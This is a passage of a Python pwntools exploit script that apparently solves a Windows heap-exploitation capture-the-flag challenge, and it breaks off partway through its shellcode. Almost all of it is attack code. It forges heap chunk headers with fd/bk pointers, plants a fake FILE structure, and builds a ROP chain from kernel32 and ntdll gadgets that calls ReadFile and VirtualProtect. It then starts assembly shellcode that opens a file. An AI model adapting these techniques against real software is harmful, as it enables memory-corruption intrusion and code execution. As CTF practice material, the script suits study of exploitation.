 ```python
p.recvuntil(">>")
p.sendline("4")

# header
fake_pwd = "phdphd" + "\x00"*2 + p64(header)
# fd, bk
fake_pwd += p64(user + 0x10) + p64(D_bk)[:-2]

# header
fake_user = "ddaa" + "\x00"*4 + p64(header)
# fd, bk
fake_user += p64(D_fd) + p64(pwd + 0x10)[:-2]
login(fake_user, fake_pwd)

cnt = 0
_ptr = 0
_base = ret
flag = 0x2080
fd = 0
bufsize = 0x110
obj = p64(_ptr) + p64(_base) + p32(cnt) + p32(flag)
obj += p32(fd) + p32(0) + p64(bufsize) +p64(0)
obj += p64(0xffffffffffffffff) + p32(0xffffffff) + p32(0) + p64(0)*2

add("B_REALLOC",0x100, obj)# file structure
add("PWD_CHUNK",0x100, "F"*0x10+p64(D_bk)) #overwrite fp to chunk B

# logout
p.recvuntil(">>")
p.sendline("4")

login("aaaa","aaaa")

virtualprotect = kernel32 + 0x1afe0
readfile = kernel32 + 0x22460
writefile = kernel32 + 0x22550
createfile = kernel32 + 0x220d0
pop_rdx_rcx_r8_to_r11 = ntdll + 0x8d150
sc_address = imagebase + 0x5000

# call readfile(stdin, sc_address, 0x100, sc_address+0x100)
rop_buf = p64(pop_rdx_rcx_r8_to_r11)
rop_buf += p64(sc_address) + p64(stdin) + p64(0x100) + p64(sc_address + 0x100) + p64(0) + p64(0) + p64(readfile)

# call virtualprotect(sc_address, 0x1000, 0x40, sc_address+0x100-8)  
rop_buf += p64(pop_rdx_rcx_r8_to_r11) 
rop_buf += p64(0x1000) + p64(sc_address) + p64(0x40) + p64(sc_address + 0x100 -8) + p64(0) + p64(0) + p64(virtualprotect) + p64(sc_address)
p.send(rop_buf.ljust(0x100-8)+p64(4))

shellcode = f'''
	jmp readflag
flag:
	pop r11
createfile:
	mov qword ptr [rsp + 0x30], 0
	mov qword ptr [rsp + 0x28], 0x80
	mov qword ptr [rsp + 0x20], 3
	xor r9, r9
	mov r8, 1
	mov rdx, 0x80000000
	mov rcx, r11
```